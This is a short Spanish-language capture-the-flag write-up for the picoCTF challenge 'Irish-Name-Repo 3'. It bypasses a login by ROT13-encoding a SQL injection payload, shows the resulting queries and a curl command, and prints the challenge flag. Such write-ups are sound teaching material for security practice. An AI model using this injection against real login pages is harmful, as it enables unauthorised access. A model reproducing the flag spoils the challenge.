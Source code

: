 # Irish-Name-Repo 3
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/` ([link](https://jupiter.challenges.picoctf.org/problem/54253/)) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!

- Hints: Seems like the password is encrypted.

## Solución
- muy similar al anterior, probamos la inyección por defecto `' or 1==1--` desactivando el debug para ver la retro
```
password: ' or 1==1;
SQL query: SELECT * FROM admin where password = '' be 1==1;'
```
- probamos con un texto mas largo: esto es una prueba
```
password: esto es una prueba
SQL query: SELECT * FROM admin where password = 'rfgb rf han cehron'

# Login failed.
```
- notamos que es encriptado de alguna forma, probamos cyberchef y vemos que es rot134
- https://gchq.github.io/CyberChef
- Entonces le mandaremos el payload encriptado en rot13 para que al llegarle haga lo contrario
```
' or 1==1--
' be 1==1--

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}
```

### Consola
```bash
curl https://jupiter.challenges.picoctf.org/problem/54253/login.php -d "password=' be 1==1--"
<h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}</p>**%**
```

## Referencias

- sql injection: https://www.w3schools.com/sql/sql_injection.asp
- cyberchef : https://gchq.github.io/CyberChef/